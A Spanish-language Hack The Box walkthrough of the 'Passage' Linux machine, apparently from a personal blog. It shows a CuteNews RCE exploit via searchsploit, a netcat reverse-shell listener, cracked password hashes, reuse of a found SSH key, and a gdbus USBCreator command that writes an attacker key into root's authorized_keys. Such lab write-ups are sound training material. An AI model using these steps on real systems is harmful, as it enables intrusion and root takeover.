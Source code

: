 ```yaml
---
layout: single
title: Passage - Hack The Box
excerpt: "Resolución de la máquina *Passage* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de un exploit para el gestor de noticias *CuteNews* para obtener la intrusión inicial. Después encontraremos el hash del usuario paul y lo crackearemos para obtener su contraseña y migrar a su centa de usuario. Veremos como éste usuario tiene la clave privada ssh del usuario navdav en su directorio home, la utilizaremos y migraremos a su cuenta de usuario, y finalmente nos aprovecharemos de una vulnerabilidad que nos permite crear ficheros con permisos de root para poner nuestra clave pública de ssh en las claves autorizadas del usuario root para conectarnos por ssh sin contraseña con la cuenta de root."
date: 2021-03-08
classes: wide
header:
  teaser: /assets/images/Passage-Hackthebox/passage.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Web Exploiting
  - Privilege Escalation
  - Pentesting
  - Linux
---
```


![](/assets/images/Passage-Hackthebox/passage.png)

Resolución de la máquina *Passage* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de un exploit para el gestor de noticias *CuteNews* para obtener la intrusión inicial. Después encontraremos el hash del usuario paul y lo crackearemos para obtener su contraseña y migrar a su centa de usuario. Veremos como éste usuario tiene la clave privada ssh del usuario navdav en su directorio home, la utilizaremos y migraremos a su cuenta de usuario, y finalmente nos aprovecharemos de una vulnerabilidad que nos permite crear ficheros con permisos de root para poner nuestra clave pública de ssh en las claves autorizadas del usuario root para conectarnos por ssh sin contraseña con la cuenta de root.

## Escaneo de puertos

![](/assets/images/Passage-Hackthebox/nmap.png)

Puertos 22 y 80 abiertos.

Empiezo mirando la web en el puerto 80.

![](/assets/images/Passage-Hackthebox/web.png)

No hay robots.txt y en el código fuente tampoco hay nada interesante.

Decido fuzzear con ffuf pero me doy cuenta de que a los pocos segundos de empezar a buscar directorios se corta el acceso a la web, como si me hubieran baneado la ip.

## Intrusión inicial

En el pie de página veo “Powered by CuteNews” así que pruebo con searchsploit a ver si encuentra algo relacionado.

Y bingo! Encuentro ésto CuteNews 2.1.2 - Remote Code Execution

Lo descargo con searchsploit -m php/webapps/48800.py, lo ejecuto y me da diréctamente ejecución de comandos.

![](/assets/images/Passage-Hackthebox/cutenews.png)

Lo siguiente es ponerme en escucha en el puerto 9001 con rlwrap nc -lvnp 9001 y ejecutar una reverse shell en bash para recibir la shell.

![](/assets/images/Passage-Hackthebox/shell.png)

Convierto la shell en una shell totalmente interactiva.
Con which python compruebo de tiene python instalado, y luego como siempre:
```
python -c ‘import pty;pty.spawn(“/bin/bash”)’
ctrl + z
stty raw -echo
fg
export TERM=xterm
```

![](/assets/images/Passage-Hackthebox/interactiva.png)


## Escalada al usuario paul

En el directorio home veo que hay dos usuarios, paul y nadav, pero no puedo listar lo que hay dentro.
Empiezo a enumerar el directorio var/www/html/CuteNews y encuentro un fichero que tiene unos hashes en base64.

El fichero es var/www/html/CuteNews/cdata/users/lines
Y contiene lo siguiente:

![](/assets/images/Passage-Hackthebox/users.png)

Mirando con `echo “texto” | base64 -d` en cada una de las cadenas de texto veo que hay algunas que tienen un hash de usuario.

```
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:

{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-
coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul

Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6c
b43f16f497273cd";s:3:"lts";s:10:"154www-data@passage:/var/www/html/
CuteNews/cdata/users$

a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-
swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim

Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af30
85fbeca";s:3:"lts";s:10:"1592487094www-data@passage:/var/www/html/CuteNews/
cdata/users$

a:1:{s:4:"name";a:1:{s:5:"admin";a:8:
{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nad
av@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a

26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:)www-
data@passage:/var/www/html/CuteNews/cdata/users$

a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:
{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre
55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f6533
1ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpbase64:
invalid input
```

Me guardo el hash de paul en un fichero y lo crackeo con hashcat

`hashcat -m 1400 paul.hash tools/wordlist/rockyou.txt`

![](/assets/images/Passage-Hackthebox/hashcat.png)

e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1

Y con `su paul` me convierto en el usuario paul.

![](/assets/images/Passage-Hackthebox/paul.png)

Ya puedo leer el user.txt

## Escalada al usuario navdav

A continuación me pongo a enumerar lo que hay en la home de paul y veo que dentro de .ssh hay claves privadas. Las miro y veo que son del usuario nadav!

Simplemente copio el contenido de la clave privada y lo pego en un fichero local.
Luego cambio los permisos para que no me de error con `chmod 600 id_rsa` y me conecto con `ssh -i id_rsa nadav@10.10.10.206`

![](/assets/images/Passage-Hackthebox/navdav.png)

Llegado a este punto empiezo enumerando los ficheros de la home del usuario y veo en .ICEauthority que se repite varias veces el texto MAGIC-COOKIE.
Busco información sobre eso (iceauthority privilege escalation) y encuentro una página en la que explican un bug que permite crear ficheros con permisos de root.

[https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

Ya que puedo crear ficheros con privilegios de root, me creo en mi máquina un par de claves ssh con ssh-keygen. Después copio el contenido de mi clave pública y me creo un fichero en la máquina passage con el contenido de mi clave.

Por último ejecuto

```
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /dev/shm/key /root/.ssh/authorized_keys true
```

para copiar mi clave pública en root/.ssh/authorized_keys :)

Sólo me queda conectarme por ssh con el usuario root, ya que no me va a pedir contraseña.

![](/assets/images/Passage-Hackthebox/root.png)

Ya puedo leer el root.txt
